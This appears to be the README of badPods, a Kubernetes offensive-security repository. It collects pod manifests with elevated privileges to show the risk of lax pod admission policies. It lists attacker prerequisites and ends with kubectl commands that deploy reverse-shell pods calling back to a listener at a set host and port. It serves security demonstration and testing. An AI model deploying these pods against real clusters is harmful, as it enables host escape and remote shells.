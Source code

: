 # badPods

A collection of manifests that create pods with different elevated privileges. Quickly demonstrate the impact of allowing security sensitive pod specifications. 

## Background
Occasionally pods need access to privileged resources on the host, so the Kubernetes pod spec allows for it. However, this level of access should be granted with extreme caution. Administrators have ways to prevent the creation of pods with these security sensitive pod specifications using Pod Security Policies or with admission controllers like OPA Gatekeeper. However, the real-world security implication of allowing a certain attributes is not always understood, and quite often, pod creation polices are not as locked down as they should be. 

## Purpose
What if you can create a pod with just `hostNetwork`, just `hostPID`, just `hostIPC`, just `hostPath`, or just `privileged`? What can you do in each case? This repository aims to help you answer those questions. 

## Prerequisites
In order to be successful in this attack path, you'll need the following: 

1. Access to a cluster 
1. Permission to create one of the following resource types in at least one namespace: 
   * CronJob, DeamonSet, Deployment, Job, Pod, ReplicaSet, ReplicationController, StatefulSet
1. Access to exec into pods or a network policy that allows a reverse shell from a pod to reach you. 
1. A pod security policy (or other pod admission controller's logic) that llows pods to be created with one or more security sensitive attributes, or no pod security policy / pod admission controller at all

## The badPods line-up

Notes | readme | pod | revshell
-- | -- | -- | --
Everything allowed | [readme](manifests/everything-allowed/) | [manifest](manifests/everything-allowed/everything-allowed.yaml) | [manifest](manifests/everything-allowed/everything-allowed-revshell.yaml)
Privileged and hostPid | [readme](manifests/priv-and-hostpid/) | [manifest](manifests/priv-and-hostpid/pod-priv-and-hostpid.yaml) | [manifest](manifests/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml)
Privileged only | [readme](manifests/priv/) | [manifest](manifests/priv/pod-priv.yaml) | [manifest](manifests/priv/pod-priv-revshell.yaml)
hostPath only | [readme](manifests/hostpath/) | [manifest](manifests/hostpath/hostpath-exec.yaml) | [manifest](manifests/hostpath/hostpath-revshell.yaml)  
hostPid only | [readme](manifests/hostpid/) | [manifest](manifests/hostpid/hostpid.yaml) | [manifest](manifests/hostpid/hostpid-revshell.yaml)  
hostNetwork only | [readme](manifests/hostnetwork/) | [manifest](manifests/hostnetwork/hostnetwork-exec.yaml) | [manifest](manifests/hostnetwork/hostnetwork-revshell.yaml)
hostIPC only | [readme](manifests/hostipc/) | [manifest](manifests/hostipc/hostipc-exec.yaml) | [manifest](manifests/hostipc/hostipc-revshell.yaml)
Nothing allowed | [readme](manifests/nothing-allowed/) | [manifest](manifests/nothing-allowed/nothing-allowed.yaml) | [manifest](manifests/nothing-allowed/nothing-allowed-revshell.yaml)


# Impact - What's the worst that can happen?
Check out blog post here

# Organization

## There are 8 ways to create a Pod
There might be a situation where you are not authorized to create pods, but you can create another resource type that will spin up the pods. As [Eviatar Gerzi (@g3rzi)](https://twitter.com/g3rzi) points out in his talk [Compromising Kubernetes Cluster by Exploiting RBAC Permissions](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/18100/2020_USA20_DSO-W01_01_Compromising%20Kubernetes%20Cluster%20by%20Exploiting%20RBAC%20Permissions.pdf), "There are 8 ways to create a Pod". I've included manifests that will create each of my badPods as each of the 8 different resource types. 

## Reverse shells
In most situations, if you have permission to create pods, you also have permission to `exec` into them. However, that is not always the case, so a version of each manifest is included that will call back to your listener as soon as the pod is created. 

```bash
├── manifests
│   ├── everything-allowed
│   │   ├── cronjob
│   │   │   ├── everything-allowed-exec-cronjob.yaml
│   │   │   └── everything-allowed-revshell-cronjob.yaml
│   │   ├── deamonset
│   │   │   ├── everything-allowed-exec-deamonset.yaml
│   │   │   └── everything-allowed-revshell-deamonset.yaml
│   │   ├── deployment
│   │   │   ├── everything-allowed-exec-deployment.yaml
│   │   │   └── everything-allowed-revshell-deployment.yaml
│   │   ├── job
│   │   │   ├── everything-allowed-exec-job.yaml
│   │   │   └── everything-allowed-revshell-job.yaml
│   │   ├── pod
│   │   │   ├── everything-allowed-exec-pod.yaml
│   │   │   └── everything-allowed-revshell-pod.yaml
│   │   ├── README.md
│   │   ├── replicaset
│   │   │   ├── everything-allowed-exec-replicaset.yaml
│   │   │   └── everything-allowed-revshell-replicaset.yaml
│   │   ├── replicationcontroller
│   │   │   ├── everything-allowed-exec-replicationcontroller.yaml
│   │   │   └── everything-allowed-revshell-replicationcontroller.yaml
│   │   └── statefulset
│   │       ├── everything-allowed-exec-statefulset.yaml
│   │       └── everything-allowed-revshell-statefulset.yaml
│   ├── hostipc
│   │   ├── cronjob
│   │   │   ├── hostipc-exec-cronjob.yaml
│   │   │   └── hostipc-revshell-cronjob.yaml
│   │   ├── deamonset
│   │   │   ├── hostipc-exec-deamonset.yaml
│   │   │   └── hostipc-revshell-deamonset.yaml
│   │   ├── deployment
│   │   │   ├── hostipc-exec-deployment.yaml
│   │   │   └── hostipc-revshell-deployment.yaml
│   │   ├── job
│   │   │   ├── hostipc-exec-job.yaml
│   │   │   └── hostipc-revshell-job.yaml
│   │   ├── pod
│   │   │   ├── hostipc-exec-pod.yaml
│   │   │   └── hostipc-revshell-pod.yaml
...omitted for brevity...
```




# Usage
 Each resource in the `manifests` directory targets a specific attribute or a combination of attributes that expose the cluster to risk when allowed. Within each badPod type, there are manifests that will create the 8 different resource types that in turn create pods. Each subdirectory has it's own usage information which includes tailored post-exploitation ideas and steps.  

### Clone the repo
```bash
git clone https://github.com/BishopFox/badPods
cd badPods
```

### Create the pods (or at least try to create them)

```bash
kubectl apply -f ./yaml/everything-allowed/everything-allowed.yaml
kubectl apply -f ./yaml/priv-and-hostpid/pod-priv-and-hostpid.yaml 
kubectl apply -f ./yaml/priv/pod-priv.yaml
kubectl apply -f ./yaml/hostpath/hostpath-exec.yaml
kubectl apply -f ./yaml/hostpid/hostpid.yaml 
kubectl apply -f ./yaml/hostnetwork/hostnetwork-exec.yaml
kubectl apply -f ./yaml/hostipc/hostipc-exec.yaml
kubectl apply -f ./yaml/nothing-allowed/nothing-allowed.yaml

```

### Reverse shell version of each pod
If you can create pods but not exec  into them, you can use the reverse shell version of each pod. To avoid having to edit each pod with your host and port, you can environment variables and the `envsubst` command. Remember to spin up all of your listeners first!

```bash
HOST="10.0.0.1" PORT="3111" envsubst < ./yaml/everything-allowed/everything-allowed-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3112" envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3113" envsubst < ./yaml/priv/pod-priv-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3114" envsubst < ./yaml/hostpath/hostpath-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3115" envsubst < ./yaml/hostpid/hostpid-revshell.yaml  | kubectl apply -f -
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/hostnetwork/hostnetwork-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3117" envsubst < ./yaml/hostipc/hostipc-revshell.yaml | kubectl apply -f -
HOST="10.0.0.1" PORT="3118" envsubst < ./yaml/nothing-allowed/nothing-allowed-revshell.yaml | kubectl apply -f -
```

# Acknowledgements 
Thank you [Rory McCune](https://twitter.com/raesene), [Duffie Cooley](https://twitter.com/mauilion), [Brad Geesaman](https://twitter.com/bradgeesaman), [Tabitha Sable](https://twitter.com/tabbysable), [Ian Coldwater](https://twitter.com/IanColdwater), and [Mark Manning](https://twitter.com/antitree) for publicly sharing so much knowledge about Kubernetes offensive security. 
